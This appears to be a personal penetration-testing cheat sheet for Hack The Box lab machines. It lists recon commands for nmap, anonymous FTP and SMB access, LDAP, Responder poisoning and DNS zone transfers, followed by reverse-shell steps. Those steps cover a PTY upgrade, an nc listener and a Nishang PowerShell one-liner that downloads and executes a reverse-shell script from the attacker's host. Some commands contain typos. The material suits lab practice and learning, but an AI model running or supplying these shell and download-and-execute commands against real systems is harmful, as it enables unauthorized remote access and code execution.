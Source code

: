 
# NMAP
nmap -sC -sV -sT -oA NMAP/HTB 10.10.10.161

# FTP
ftp $targetip
Username: anonymous
Password: anything

# SMB
smbclient -N -L //10.10.10.161/
smbclient -N //10.10.10.161/Share
smbmap -H 10.10.10.161 -u anonymous -d HTB.LOCAL
smbmap -H 10.10.10.161 -u anonymous -d localhost

# LDAP
ldapsearch -x -h lightweight.htb -b "dc=lightweight,dc=htb" 

responder.oy -i eth0 -w -f

-w : WPAD rogue server
-f : This option allows you to fingerprint a host that issued an NBT-NS or LLMNR query.

# DNS
nslookup
SERVER 10.10.10.161
- 127.0.0.1
- 10.10.10.161

dnsrecon -r 127.0.0.0/24 -n 10.10.10.161
dnsrecon -r 127.0.1.0/24 -n 10.10.10.161
dnsrecon -r 10.10.10.0/24 -n 10.10.10.161

dig axfr @10.10.10.161
dig axfr bank.htb @10.10.10.161

# Upgrading Reverse Shells to be Fully Interactive
python -c "import pty; pty.spawn('/bin/bash')"
Press Ctrl+Z to background your reverse shell, then in your local machine run: 
- stty raw -echo
- fg

Type reset and hit return. You should be presented with a fully interactive shell. You’re welcome.

There’s still one little niggling thing that can happen, the shell might not be the correct height/width for your terminal. To fix this, go to your local machine and run:

stty size

This should return two numbers, which are the number of rows and columns in your terminal. For example’s sake let’s say this command returned 48 120 Head on back to your victim box’s shell and run the following.

stty -rows 48 -columns 120

# Python SERVER

python -m simpleHTTPServer

# Windows nishang shell

Linux Site:
gedit Invoke-PowerShellTcp.ps1 (Invoke-PowerShellTcp -Reverse -IPAdress 192.168.1.32 -Port 4444
python -m SimpleHTTPServer
nc -lvp 4444

Windows Site:
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.webClient).downloadString('http://10.10.10.10:8000/Invoke-PowerShellTcp.ps1')



